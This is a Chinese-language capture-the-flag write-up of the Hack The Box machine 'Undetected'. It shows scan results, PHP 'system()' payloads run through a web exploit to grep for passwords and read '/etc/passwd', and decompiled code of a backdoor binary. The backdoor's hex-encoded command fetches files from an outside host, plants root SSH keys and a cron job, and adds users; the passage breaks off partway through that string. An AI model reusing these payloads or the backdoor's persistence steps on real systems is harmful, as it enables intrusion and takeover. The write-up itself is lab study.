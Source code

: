 [https://app.hackthebox.com/machines/439](https://app.hackthebox.com/machines/439)

nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261639622.png)

---

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261640454.png)

把`10.10.11.146    store.djewelry.htb`加到`/etc/hosts`里面

xray直接扫出来了...

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261643629.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261650556.png)

`<?php system("find /var/www -name '*' | xargs grep -i password");?>`

没有得到有效信息,当前用户为`www-data`

`<?php system("cat /etc/passwd | grep sh");?>`

```
root:x:0:0:root:/root:/bin/bash
steven:x:1000:1000:Steven Wright:/home/steven:/bin/bash
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
steven1:x:1000:1000:,,,:/home/steven:/bin/bash
```

`/etc/passwd`显示存在`steven`用户,但没有权限进入`/home/steven`因此需要先提权到`steven`或者是`steven1`

[Linux权限提升：自动化信息收集](https://www.freebuf.com/articles/network/274223.html)

利用[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)进行信息搜集,但信息量太大,无从下手

去瞄了眼wp[hackthebox-undetected-writeup](https://0xdedinfosec.vercel.app/posts/hackthebox-undetected-writeup),别人是在路径爆破的时候得到了一个叫`info`的ELF(我跳步了...)

具体路径位于`/var/backups/info`

`main->check_root->check_shell->exec_shell`

```cpp
int exec_shell()
{
  char *v0; // rax
  char *v1; // rax
  char *v2; // rax
  char *argv[4]; // [rsp+0h] [rbp-A90h] BYREF
  char v5[1328]; // [rsp+20h] [rbp-A70h] BYREF
  char v6[1320]; // [rsp+550h] [rbp-540h] BYREF
  char *path; // [rsp+A78h] [rbp-18h]
  char *v8; // [rsp+A80h] [rbp-10h]
  char *v9; // [rsp+A88h] [rbp-8h]

  path = "/bin/bash";
  strcpy(
    v6,
    "776765742074656d7066696c65732e78797a2f617574686f72697a65645f6b657973202d4f202f726f6f742f2e7373682f617574686f72697a65"
    "645f6b6579733b20776765742074656d7066696c65732e78797a2f2e6d61696e202d4f202f7661722f6c69622f2e6d61696e3b2063686d6f6420"
    "373535202f7661722f6c69622f2e6d61696e3b206563686f20222a2033202a202a202a20726f6f74202f7661722f6c69622f2e6d61696e22203e"
    "3e202f6574632f63726f6e7461623b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030"
    "207b73797374656d28226563686f2022243122313a5c24365c247a5337796b4866464d673361596874345c2431495572685a616e5275445a6866"
```